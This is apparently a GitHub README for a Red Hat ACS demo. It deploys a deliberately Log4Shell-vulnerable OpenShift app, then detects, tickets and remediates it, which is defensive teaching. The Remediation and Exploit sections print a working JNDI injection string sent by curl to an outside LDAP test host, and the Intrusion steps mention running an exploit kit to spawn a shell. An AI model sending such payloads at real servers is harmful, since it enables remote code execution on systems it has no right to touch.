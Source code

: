 # Red Hat ACS demo

This repository is a demo for Red Hat Advanced Cluster Security that shows its benefits in the context of a major vulnerability such as Log4Shell.

The high level scenario of the demo is:

* An application is vulnerable to Log4Shell and deployed to production
* The vulnerability is announced
* A policy is loaded to track vulnerable applications and drive the remediation process
* Tickets are opened automatically on Jira to notify developers
* However, the developers need time to properly update the Log4j library
* The operations people will implement the remediation in the meantime
* The developers will notice their CI process is stopped because of the critical vulnerability
* They update the version of the Log4j dependency
* The CI/CD process builds and deploy the final fix for the CVE

From this demo we can conclude that Red Hat ACS can:

* Detect major CVEs when they appear
* Drive a remediation campaign
* Identify the current version of each component of a container image
* Detect intrusion in the information system
* Warn developers that their application is vulnerable to a CVE
* Ensure security and quality of software delivery

## Setup

### 0. Verify pre-requisites

On your workstation:

* podman
* buildah
* git
* curl
* oc

On your OpenShift cluster(s):

* Red Hat ACS
* OpenShift Pipelines

### 1. Jira

* Create a Jira trial account at: https://www.atlassian.com/fr/try/cloud/signup?bundle=jira-software&edition=free
* Write down the URL of your dashboard.
* Click **Jira Software** in the top left corner
* Click **See all projects** in the top right corner
* Click **Create project**
* Select the **Bug tracking** template
* Choose a name and a key
* Write down the chosen key
* Go to https://id.atlassian.com/manage-profile/security/api-tokens and create an API Token.
* Login to the Central and drill down to **Platform configuration** > **Integrations**.
* Select **Jira software**.
* Click **New integration**.
* Fill-in the creation form with:

  * **Integration Name**: `Jira`
  * **Username**: your Jira username
  * **Password**: your Jira API Token
  * **Issue Type**: `Task`
  * **Default Project**: your Jira project Key (all upper case)

* Click **Test** and **Save**

### 2. Deploy the CI/CD pipeline

```sh
oc apply -f cicd
```

### 3. Expose the registry

Expose the OpenShift registry.

```sh
oc create route reencrypt image-registry --service=image-registry -n openshift-image-registry
```

Get the registry hostname and default token.

```sh
# Get the hostname...
oc get route -n openshift-image-registry image-registry -o jsonpath={.spec.host}

# and the password.
oc serviceaccounts get-token -n vulnerable-cicd default
```

Create the Docker Registry integration in Central with the above information.

Set the registry hostname where required.

```sh
sed -i.bak "s/__REGISTRY__/$REGISTRY/" remediation/Dockerfile deployment/kustomization.yaml
```

### 4. Deploy the vulnerable app

```sh
oc kustomize deployment | oc apply -f - 
```

Give access to the `vulnerable-cicd` images from the `vulnerable-log4j` namespace.

```sh
REGISTRY=$(oc get route -n openshift-image-registry image-registry -o jsonpath={.spec.host})
oc get secrets -n vulnerable-cicd -o json | jq -r '.items[] | select(.metadata.annotations["kubernetes.io/service-account.name"]=="default" and .type=="kubernetes.io/dockercfg") | .data[".dockercfg"]' | base64 -d | jq --arg registry "$REGISTRY" '.["image-registry.openshift-image-registry.svc:5000"] as $conf | { ($registry) : $conf}' > dockercfg
oc apply -n vulnerable-log4j -f - <<EOF
kind: Secret
apiVersion: v1
metadata:
  name: external-registry
data:
  .dockercfg: $(base64 -w0 dockercfg)
type: kubernetes.io/dockercfg
EOF
oc secrets link default external-registry --for=pull -n vulnerable-log4j
```

## Preparation

From your workstation, verify the connection to the registry:

```sh
REGISTRY=$(oc get route -n openshift-image-registry image-registry -o jsonpath={.spec.host})
REGISTRY_TOKEN="$(oc get secrets -n vulnerable-cicd -o json | jq -r '.items[] | select(.metadata.annotations["kubernetes.io/service-account.name"]=="default" and .type=="kubernetes.io/dockercfg") | .data[".dockercfg"]' | base64 -d | jq -r --arg registry "$REGISTRY" '.["image-registry.openshift-image-registry.svc:5000"].password')"
podman login "$REGISTRY" --username sa --password "$REGISTRY_TOKEN"
```

## Demo scenario

### Build the inventory

* Open the Central
* Drill down to **Platform Configuration** > **System policies**
* Click **Import policy**
* Load `policy/log4shell.json`
* Open the **Violations** tab
* Filter by **Policy**: `Log4Shell`

### Intrusion

* In a hidden terminal, run the JNDI Exploit Kit to trigger the "Shell spawned by Java application" policy
* Open the **Violations** tab
* Filter by **Namespace**: `vulnerable-log4j`
* Go to the OpenShift console
* Select the `vulnerable-log4j` namespace
* Delete the pod
* In the Central, clear the Violation
* Drill down to **Platform Configuration** > **System policies**
* Open the **Log4Shell** policy
* Click the **Edit** button
* On the fourth tab, show the automatic enforcement options

### Remediation

```sh
podman build --pull-always -t $REGISTRY/vulnerable-cicd/vulnerable-log4j:latest remediation
podman run -it --rm --name test -p 8080:8080 $REGISTRY/vulnerable-cicd/vulnerable-log4j:latest
curl http://localhost:8080 -H 'X-Name: ${jndi:ldap://log4shell.huntress.com:1389/e597d75d-1851-4133-9a08-d5dfd7e04264}'
podman push $REGISTRY/vulnerable-cicd/vulnerable-log4j:latest
oc delete pods -l deployment=settlement-app -n vulnerable-log4j
```

The violation "Log4Shell" disappeared.

### Final fix by the developers

Start the CI/CD pipeline:

* In the OpenShift developer console, navigate to the `vulnerable-cicd` namespace.
* Drill down to **Pipelines**
* Select `vulnerable-log4j`
* Click **Actions** > **Start**

It fails because the current version is vulnerable.

Edit **src/pom.xml** and change `<log4j.version>2.14.0</log4j.version>` to `<log4j.version>2.17.1</log4j.version>`.

```sh
git add src/pom.xml
git commit -m 'fix log4shell cve'
git push
```

Restart the CI/CD pipeline.

## Reset the demo

* In central, delete the **Log4Shell** policy

```sh
oc delete -f deployment
oc start-build vulnerable-log4 -n vulnerable-cicd
```

## Exploit

Find the URL of the vulnerable container.

```sh
export TARGET="https://$(oc get route settlement-app -n vulnerable-log4j -o jsonpath="{.spec.host}")/"
```

Go to https://log4shell.huntress.com/ and pass the generated string in the `X-Name` HTTP header.

```sh
curl "$TARGET" -H 'X-Name: ${jndi:ldap://log4shell.huntress.com:1389/e597d75d-1851-4133-9a08-d5dfd7e04264}'
```
